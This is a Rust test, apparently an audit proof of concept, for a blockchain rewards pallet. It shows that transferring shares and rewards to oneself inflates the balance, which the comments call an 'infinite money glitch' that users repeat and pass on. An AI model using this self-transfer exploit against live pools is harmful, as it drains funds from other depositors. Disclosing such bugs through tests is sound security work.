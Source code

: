 ```rust
fn transfer_to_self() {
	ExtBuilder::default().build().execute_with(|| {
		// Open a pool with bob holding 100 shares in the pool
		RewardsModule::add_share(&BOB, &DOT_POOL, 100);
		// Accumulate rewards
		assert_ok!(RewardsModule::accumulate_reward(&DOT_POOL, NATIVE_COIN, 100));
		// Alice deposits into the pool and gets shares, assert that it succeeds
		RewardsModule::add_share(&ALICE, &DOT_POOL, 100);
		// Assert that rewards still exist
		assert_ok!(RewardsModule::accumulate_reward(&DOT_POOL, NATIVE_COIN, 100));
		// Gets pools info 
		let pool_info = RewardsModule::pool_infos(DOT_POOL);
		// Ensures that reward transfer doesn't affect pool
		let new_pool_info = RewardsModule::pool_infos(DOT_POOL);
		assert_eq!(pool_info, new_pool_info, "reward transfer does not affect the pool");
		// Assert that Alice's share/rewards transfer to self succeeds 
		assert_ok!(RewardsModule::transfer_share_and_rewards(&ALICE, &DOT_POOL, 90, &ALICE));
		// Assert that alice's share/reward balance has now increased
		assert_eq!(
			RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, ALICE),
			(190, vec![(NATIVE_COIN, 190)].into_iter().collect())
		);
		// Alice has discovered infinite money glitch? She tries again to be sure its not a fluke
		// Alice's transfers shares and rewards again to to self, assert that it succeeds 
		assert_ok!(RewardsModule::transfer_share_and_rewards(&ALICE, &DOT_POOL, 180, &ALICE));
		// Assert that her share/reward balance still increased
		assert_eq!(
			RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, ALICE),
			(370, vec![(NATIVE_COIN, 370)].into_iter().collect())
		);
		// She transfers a some of her shares/rewards to Bob, while teaching him the glitch
		assert_ok!(RewardsModule::transfer_share_and_rewards(&ALICE, &DOT_POOL, 70, &BOB));
		assert_eq!(
			RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, ALICE),
			(300, vec![(NATIVE_COIN, 300)].into_iter().collect())
		);
		assert_eq!(
			RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, BOB),
			(170, vec![(NATIVE_COIN, 70)].into_iter().collect())
		);
		// Bob decides to try it out himself, Assert that it works
		assert_ok!(RewardsModule::transfer_share_and_rewards(&BOB, &DOT_POOL, 100, &BOB));
		assert_eq!(
			RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, BOB),
			(270, vec![(NATIVE_COIN, 111)].into_iter().collect())
		);
		assert_ok!(RewardsModule::transfer_share_and_rewards(&BOB, &DOT_POOL, 100, &BOB));
		assert_eq!(
			RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, BOB),
			(370, vec![(NATIVE_COIN, 152)].into_iter().collect())
		);
	});
}
```
